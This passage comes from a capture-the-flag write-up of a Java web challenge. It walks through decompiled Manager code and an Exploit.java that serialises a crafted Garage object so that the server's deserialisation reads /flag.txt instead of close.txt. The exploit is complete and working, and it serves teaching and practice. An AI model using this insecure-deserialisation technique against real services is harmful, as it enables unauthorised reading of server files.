 ```java
			if (this.closeMessage == null) {
				File closeMessageFile = new File(this.closeMessageFile);
				FileInputStream fis = new FileInputStream(closeMessageFile);
				byte[] data = new byte[(int) closeMessageFile.length()];
				fis.read(data);
				fis.close();
				this.closeMessage = new String(data, "UTF-8");
			}
		} catch (IOException var5) {
			;
		}

	}
}
```

You can see `closeMessageFile` set to `close.txt` and if the `closeMessage` is null, it's set to the contents of `closeMessageFile`.

That's our vulnerability. If we change `close.txt` to `/flag.txt`, we should be able to trick the server to write the contents of `/flag.txt` to `garage`, through deserialization of the Manager object.

To that end, I modified two lines of `Manager.class` like so. Save it as `Manager.java`.

![435553fb.png](/assets/images/posts/bsidestlv-web/7fc2d82a.png)

I wrote the following exploit to generate the malicious `garage` file.

<div class="filename"><span>Exploit.java</span></div>

```java
import java.io.*;

public class Exploit {

  public static void main(String[] args) {
    try {

      Employee emp = new Manager();
      Garage g = new Garage();
      g.setManager(emp);
      g.addCar(new Car("Honda" , "H4CK3R", "2001"));

      FileOutputStream fos = new FileOutputStream("garage");
      fos.write(g.toByteArray());
      fos.close();

    } catch (Exception e) {
      System.err.println(e);
    }
  }
}
```
